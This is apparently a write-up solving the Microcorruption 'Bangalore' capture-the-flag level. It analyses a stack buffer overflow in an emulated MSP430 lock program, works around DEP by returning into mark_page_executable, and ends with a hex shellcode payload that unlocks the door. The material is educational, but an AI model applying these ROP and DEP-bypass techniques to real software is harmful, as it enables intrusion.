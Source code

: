 # Bangalore
> sourse code [here](./dump.asm)  
> **Vulnerability**: stack buffer overflow  
> **Mitigation**: DEP  

## Analysis
pseudo code for `main`, assembly code [here](./dump.asm)
```c
void main() {
    set_up_protection();
    login();
}
```

What do `<set_up_protection>`?
```c
void set_up_protection() {
    mark_page_executable(0);
    int i = 1;
    for (; i < 0x44; i++) {
        mark_page_writable(i);
    }
    for (; i < 0x100; i++) {
        mark_page_executable(i);
    }
    turn_on_dep();
}
```

This function set up the memory protection and make sure a page is never both writable and executable.

What do `<login>`?
```c
void login() {
    ...
    gets(sp, 0x30);     // gets password
    ...
}
```

`<login>` read 0x30 bytes to the stack and return address at `sp + 0x10`. Therefore, with the program able to get `0x30`, the input can be used to overwrite the return address.

### Thought #1: ROP chain
With the **DEP** protection and the program without obvious directy function to unlock the door, probably need **ROP** chain to achieve the goal.
> Stack buffer is no executable, so no jumpping back to the stack and execute.

#### ROP chain
The goal for the ROP chain should be calling `#0x10` with sr set to a certain value to specify the interrupt for unlock.
From both how [`<INT>`](../Hanoi/dump.asm) is called from other program and the interrupt needed from the [manual](https://microcorruption.com/public/manual.pdf):

```asm
457a <INT>
457a:  1e41 0200      mov	0x2(sp), r14        ; 0x2(sp) = argument for specifying the interrupt
457e:  0212           push	sr
4580:  0f4e           mov	r14, r15
4582:  8f10           swpb	r15
4584:  024f           mov	r15, sr
4586:  32d0 0080      bis	#0x8000, sr
458a:  b012 1000      call	#0x10
458e:  3241           pop	sr
4590:  3041           ret
```

The interrupt number is specified by the argument at `sp + 0x2`. The interrupt number for unlock is `0x7f`.
Then, the value for `sr` will be set accordingly to `arg` by `sr = (((arg << 8) & 0xff00) | ((arg >> 8) & 0xff)) | 0x8000`.
Therefore, to unlock the door, the value for `sr` should be `0x7f00 | 0x8000 = 0xff00`.

That is, we need to find the following assembly code in the program:
```asm
; shellcode
3240 00ff      mov	#0xff00, sr
b012 1000      call	#0x10
```


For the ROP chain to work, we have to find the gadget in the program. Find all the `ret` instruction in the program:
```asm
0010 <__trap_interrupt>
0010:  3041           ret
...
445e:  0f4e           mov	r14, r15
4460:  3041           ret
...
4474:  3150 0a00      add	#0xa, sp
4478:  3041           ret
...
4498:  3b41           pop	r11
449a:  3041           ret
...
44ae:  3150 0a00      add	#0xa, sp
44b2:  3041           ret
...
44c6:  3150 0a00      add	#0xa, sp
44ca:  3041           ret
...
44d8:  3150 0600      add	#0x6, sp
44dc:  3041           ret
...
4508:  3b41           pop	r11
450a:  3041           ret
450c:  3041           ret
...
450e <conditional_unlock_door>
450e:  0f43           clr	r15
4510:  3041           ret
...
4538:  3150 1000      add	#0x10, sp
453c:  3041           ret
```
However, none of them is useful for the ROP chain. None of them can give us the ability to modiry the `sr` register; thus, unable to use the **ROP** chain to unlock the door.

### Thought #2: make stack executable
Instead of using the executable section in program, just make the stack executable and the shellcode on the stack directly.

Stack pointer, `sp`, is `0x3fee`, when receiving the input and will take input of size `0x30`. Check which page is the stack in:
(use simple [c code](./test.c) to check pages/memories protection)
```text
rwx	page	address
...
w:	63		0x3f00
w:	64		0x4000
w:	65		0x4100
w:	66		0x4200
w:	67		0x4300
x:	68		0x4400
x:	69		0x4500
x:	70		0x4600
...
```

Therefore, the target is to set the page, `63`, to executable and put the shellcode, `mov #0xff00, sr; call #0x10`, at the beginning of the input and use the buffer from `0x10` to first replace the original return address and set up ROP chain to make *paget 63* executable.

#### Make page executable
Try to call `<mark_page_executable>` directly,
```asm
44b4 <mark_page_executable>
44b4:  0e4f           mov	r15, r14
44b6:  0312           push	#0x0
44b8:  0e12           push	r14
44ba:  3180 0600      sub	#0x6, sp
44be:  3240 0091      mov	#0x9100, sr
44c2:  b012 1000      call	#0x10
44c6:  3150 0a00      add	#0xa, sp
44ca:  3041           ret
```

However, this way we will need to put the page number to `r15` which is impossible.

Looking into the code right before it trigger the interrupt, it pushes `0x0` and `page number` on the stack at `0x44b6 and 0x44b8`. That is, the stack layout should be as the following:
|                |                 stack                  |
| :------------: | :------------------------------------: |
|                |                  ...                   |
| return address |                 0x44ba                 |
|                |                  0x0                   |
|                |                   63                   |
|                | address when return back from `0x44ca` |

After marking the stack executable, the program should jump back to the start of the input where we put the `shellcode`. Therefore, the input should be as following,
| address | `sp`  |                            value                            |
| :-----: | :---: | :---------------------------------------------------------: |
|  3fee   |  +0   |                         *shellcode*                         |
|   ...   |  ...  |                          (padding)                          |
|  3ffe   | +0x10 |      `0x44ba`, address within `<mark_page_executable>`      |
|  4000   | +0x12 |               63, page to mark as executable                |
|  4002   | +0x14 |                             0x0                             |
|  4004   | +0x16 | `0x3fee`, execute *shellcode* after marking page executable |

## Exploit
```python
In [21]: def b2h(b):
    ...:     return ''.join(f'{c:02x}' for c in b)
    ...: 

In [22]: b2h(shellcode.ljust(0x10, b'a') + p16(0x44ba) + p16(63) + p16(0) + p16(0x3fee))
Out[22]: '324000ffb01210006161616161616161ba443f000000ee3f'
```
